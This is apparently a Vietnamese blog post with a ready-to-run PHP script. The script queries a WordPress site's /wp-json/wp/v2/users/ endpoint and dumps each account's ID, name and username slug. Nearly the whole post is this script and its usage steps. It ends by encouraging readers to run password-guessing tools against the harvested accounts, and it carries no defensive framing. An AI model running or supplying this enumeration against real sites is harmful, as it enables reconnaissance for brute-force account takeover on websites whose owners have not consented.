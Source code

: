 ```yaml
---
title: Tiết lộ Người dùng WordPress
date: 23/06/2021
layout: single
--- 
```



# Mô Tả 
Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài 



## Hướng dẫn
Thay đổi url trong đoạn code dưới đây 
```shell 
php file.php
```
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/  )
```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "http://tagert"; # url 
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>

```

![](/assets/images/10.PNG)
###Có thể thấy User ID Name đã được dump ra :D
###Với tài khoản trên, bạn có thể sử dụng các công cụ dò mật khẩu để truy ra nó :D

## Chúc may mắn :D

